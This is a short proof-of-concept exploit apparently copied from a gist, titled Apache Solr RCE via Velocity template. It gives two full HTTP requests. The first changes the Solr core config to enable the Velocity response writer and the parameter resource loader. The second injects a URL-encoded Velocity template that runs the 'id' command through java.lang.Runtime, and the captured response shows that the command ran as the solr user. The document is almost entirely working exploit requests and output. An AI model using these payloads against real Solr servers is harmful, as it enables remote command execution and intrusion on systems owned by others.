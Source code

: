 # Apache_Solr_RCE_via_Velocity_template

from: https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt

Set "params.resource.loader.enabled" as true.

Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================


RCE via velocity template
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
